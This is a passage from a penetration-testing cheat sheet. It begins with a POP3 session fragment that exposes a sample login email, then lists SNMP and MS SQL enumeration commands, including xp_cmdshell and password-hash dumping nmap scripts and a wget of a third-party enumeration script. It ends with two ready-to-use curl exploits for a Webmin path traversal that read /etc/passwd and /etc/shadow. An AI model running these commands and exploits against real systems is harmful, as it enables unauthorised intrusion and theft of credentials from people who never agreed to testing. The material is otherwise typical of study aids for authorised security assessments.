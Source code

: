       list

      +OK 2 1807
      1 786
      2 1021

      retr 1

      +OK Message follows
      From: jamesbrown@motown.com
      Dear Billy Dean,

      Here is your login for remote desktop ... try not to forget it this time!
      username: billydean
      password: PA$$W0RD!Z
      ```

### SNMP Enumeration -Simple Network Management Protocol

- Fix SNMP output values so they are human readable  
  - `apt-get install snmp-mibs-downloader download-mibs`
  - `echo "" > /etc/snmp/snmp.conf`

- SNMP Enumeration Commands
  - `snmpcheck -t $ip -c public`
  - `snmpwalk -c public -v1 $ip 1|`
  - `grep hrSWRunName|cut -d\* \* -f`
  - `snmpenum -t $ip`
  - `onesixtyone -c names -i hosts`
- SNMPv3 Enumeration  
  - `nmap -sV -p 161 --script=snmp-info $ip/24`
- Automate the username enumeration process for SNMPv3:  
  - `apt-get install snmp snmp-mibs-downloader`
  - `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`
- SNMP Default Credentials  
  - `/usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt`
### MS SQL Server Enumeration ( xp_cmdshell to execute commands )

- Nmap Information Gathering

      `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

- Webmin and miniserv/0.01 Enumeration - Port 10000
  - Test for LFI & file disclosure vulnerability by grabbing /etc/passwd
   - `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

  - Test to see if webmin is running as root by grabbing /etc/shadow
    - `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`
